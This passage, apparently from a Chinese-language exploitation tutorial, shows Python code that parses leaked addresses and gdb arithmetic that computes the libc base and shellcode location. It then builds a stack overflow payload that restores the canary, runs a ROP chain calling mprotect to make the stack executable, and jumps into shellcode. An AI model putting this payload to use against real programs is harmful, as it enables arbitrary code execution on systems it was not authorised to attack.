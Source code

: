 ```

    info = []
    n = 3

    whilebool( n ):
        out= out[pos:]
        end = out.find( b&#34; &#34; )
        info += [ int(out[:end], 16) ]
        pos = ( end + 1 )
        n -= 1

    return info
```

  
  
泄露这些地址后，我们需要修改该hijack_exec函数，将 C 库基址和 Shellcode 地址作为参数传入。但首先，我们需要根据这些泄露的地址计算出我们需要的信息。  
  

```
(gdb) p/x 0x7ffff7dd7d68-0x00007ffff7dae000
$1 = 0x29d68
```

  
  
将泄漏的地址（相对于 Libc）减去库的基地址，我们得到这个结果。因此，我们必须从这个结果中减去泄漏的地址，才能得到库的基地址。  
  

```
(gdb) p/x 0x7fffffffde98-(0x7fffffffddb0+0x40)
$2 = 0xa8
```

  
  
将泄漏的相对于堆栈的地址从shellcode地址中减去，可以得到这个结果。因此，我们必须从这个结果中减去泄漏的地址，才能得到shellcode的地址。  
  

```
def hijack_exec(p: Popen, canary, libc_base, shellcode):
    stack_page = shellcode & 0xfffffffffffff000           # Aligne the address to the page boundary.
    payload = b&#34;&#34;
    payload += b&#34;A&#34; * 0x106                               # Fills the stack frame
    payload += struct.pack( &#34;<Q&#34;, canary ) # Places the correct canary value 
    payload += b&#34;B&#34; * 0x8                                 # Base pointer
    payload += struct.pack( &#34;<Q&#34;, libc_base + 0x2a205 ) # pop rdi; ret
    payload += struct.pack( &#34;<Q&#34;, stack_page ) # The aligned stack page address
    payload += struct.pack( &#34;<Q&#34;, libc_base + 0x2bb39 ) # pop rsi; ret
    payload += struct.pack( &#34;<Q&#34;, 0x1000 ) # Page size 
    payload += struct.pack( &#34;<Q&#34;, libc_base + 0x10d37d ) # pop rdx; ret
    payload += struct.pack( &#34;<Q&#34;, 0x01 | 0x02 | 0x04 ) # Protections: PROT_EXEC=0x01, PROT_WRITE=0x02, PROT_READ=0x04 
    payload += struct.pack( &#34;<Q&#34;, libc_base + 0x10d200 ) # mprotect function address
    payload += struct.pack( &#34;<Q&#34;, shellcode ) # Jump into shellcode
    payload += b&#34;\x90&#34; * 0x40                             # NOPs for padding
    payload += buf # Shellcode

    p.stdin.write( b&#34;1\n&#34; )
    p.stdin.write( payload + b&#34;\n&#34; )
    p.stdin.flush()
```
